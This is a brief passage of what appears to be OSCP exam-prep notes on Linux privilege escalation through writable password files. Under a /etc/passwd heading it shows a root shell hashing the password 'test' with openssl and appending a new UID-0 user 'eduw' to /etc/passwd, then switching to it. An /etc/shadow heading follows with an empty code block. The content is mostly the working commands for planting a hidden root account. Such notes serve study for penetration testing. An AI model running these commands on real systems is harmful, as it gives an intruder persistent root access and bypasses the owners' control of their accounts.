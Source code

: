 
#### /etc/passwd
```
┌─[root@edu-virtualbox]─[/home/edu/OSCP]
└──╼ #openssl passwd test
$1$AjcbF6Z3$txY0x34m/KGP/AeiBbiDB1         //  Generates a hash for the password "test"

┌─[root@edu-virtualbox]─[/home/edu/OSCP]
└──╼ #echo 'eduw:$1$AjcbF6Z3$txY0x34m/KGP/AeiBbiDB1:0:0:root:/root:/bin/bash' >> /etc/passwd

┌─[root@edu-virtualbox]─[/home/edu/OSCP]
└──╼ #su eduw

```

#### /etc/shadow
Note: this is very risky, as you'll need to change an existing password.
```

```
